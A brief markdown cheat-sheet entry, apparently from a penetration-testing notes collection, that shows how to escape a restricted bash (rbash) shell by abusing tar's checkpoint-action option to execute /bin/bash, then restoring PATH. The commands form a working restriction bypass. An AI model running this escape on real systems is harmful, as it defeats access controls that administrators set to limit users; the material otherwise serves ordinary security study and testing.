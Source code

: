 ```yaml
---
title: "rbash"
date: 2024-7-9
tags: ["rbash", "shell", "escape", "bypass", "tar"]
---
```


---
### Abuse #1: tar to rbash Escape

<div>

```bash
# Before enter rbash
echo $PATH
```

```bash
# Enter rbash
su <USER> -
```

```bash
# rbash escape using tar
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```bash
# Paste the above $PATH (e.g.)
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

</div>

<br>